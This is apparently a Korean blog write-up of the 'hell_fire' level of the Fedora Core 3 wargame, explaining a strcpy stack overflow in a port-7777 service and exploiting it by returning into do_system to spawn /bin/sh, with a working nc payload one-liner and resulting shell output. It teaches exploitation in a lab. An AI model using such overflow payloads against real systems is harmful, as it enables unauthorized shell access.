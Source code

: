 

<img src="http://eliez3r.synology.me/assets/blog/writeup/fc3/3.hell_fire/image-20180809135427000.png" width="500px">

파일을 보면 setuid가 설정되어 있지 않는다.

그리고 소스코드를 보면 tcp 7777포트로 실행됨을 암시하는 힌트가 있다.

즉, 해당 프로그램은 서버에서 동작하기 때문에 앞문제에서 풀었던 ret sleding을 이용한 풀이는 불가능 하다.



소스코드의 특이점을 살펴보면, stdin에서 fgets을 이용해 값을 가져와 temp에 1024Byte만큼 저장하고, strcpy로 다시 tmp에서 buffer로 값을 복사한다.



### 0x01 : do_system()을 이용한 풀이

system함수는 내부적으로 `/bin/sh -c [string]` 을 실행시킨다. system함수는 기본적을 fork()와 execve()의 조합응용이다.

[참조](https://www.joinc.co.kr/w/man/3/system) 

따라서 system함수 내부에는 execve와 "/bin/sh"를 호출하는 부분이 존재한다.

즉, system함수에 내분에 do_system함수가 존재하며 이함수에서 execve함수로 "/bin/sh"를 호출하게 되는데, execve가 실행되는 주소를 ret에 넘겨주면 쉘이 실행된다.



<img src="http://eliez3r.synology.me/assets/blog/writeup/fc3/3.hell_fire/image-20180809140252702.png" width="500px">



<img src="http://eliez3r.synology.me/assets/blog/writeup/fc3/3.hell_fire/image-20180809140344649.png" width="500px">



do_system+1124 : 0x750784

위 빨간부분에 어셈을 해석해보면, `execve("/bin/sh", {"/home/dark_eyes/hell_fire", NULL}, envp)`가 된다.

```sh
[dark_eyes@Fedora_1stFloor ~]$ (python -c 'print "A"*268+"\x84\x07\x75\x00"';cat) | nc localhost 7777
hell_fire : What's this smell?
you : id
uid=503(hell_fire) gid=503(hell_fire) context=user_u:system_r:unconfined_t
my-pass
euid = 503
sign me up
```



------

### 0x02 : fake EBP를 이용한 풀이



FC3에서는 Stack ASLR, NX bit, ASCII-Armor가 걸려있다. 따라서 stack에서 쉘코드 실행 불가능하며, Library주소도 쉽게 사용하지 못한다.

따라서 주소가 고정되면서 실행 가능한 메모리 영역을 찾아야 한다.
